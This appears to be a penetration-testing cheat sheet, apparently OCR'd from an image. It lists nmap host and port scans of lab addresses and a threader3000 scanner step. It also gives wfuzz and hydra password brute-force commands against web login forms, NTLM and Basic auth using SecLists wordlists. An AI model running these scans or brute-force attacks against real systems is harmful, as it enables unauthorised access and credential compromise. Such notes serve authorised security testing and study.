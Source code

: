 NMAP

nmap sweep scan 
- nmap -sP 10.10.155.1-225
- nmap -p- -A -T4 -sV 10.10.155.5

THREADER 
cp ~/Files/Tools/threader3000/threader3000.py .

Nikto

Weak Credentials
HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/
